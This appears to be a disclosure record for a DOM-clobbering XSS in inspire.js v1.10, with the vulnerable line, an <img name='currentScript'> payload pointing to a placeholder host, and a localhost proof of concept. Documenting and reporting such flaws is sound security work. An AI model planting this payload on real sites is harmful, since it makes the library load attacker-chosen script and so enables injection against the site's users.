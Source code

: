 ## inspire.js

### Meta

+ Library: inspire.js
+ Stars: 1.7k
+ Version: v1.10
+ Fingerprint: `window.hasOwnProperty('inspireLoaded')`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

URL:
+ `https://inspirejs.org/inspire.js`

### Vulnerable Code Snippet

```javascript
let url = new URL("./inspire.mjs", document.currentScript ? document.currentScript.src : "https://inspire.js.org/");
```

## PoC

```
<img name=currentScript src="http://localhost:8000"></img>
<script src="https://inspirejs.org/inspire.js"></script>
```
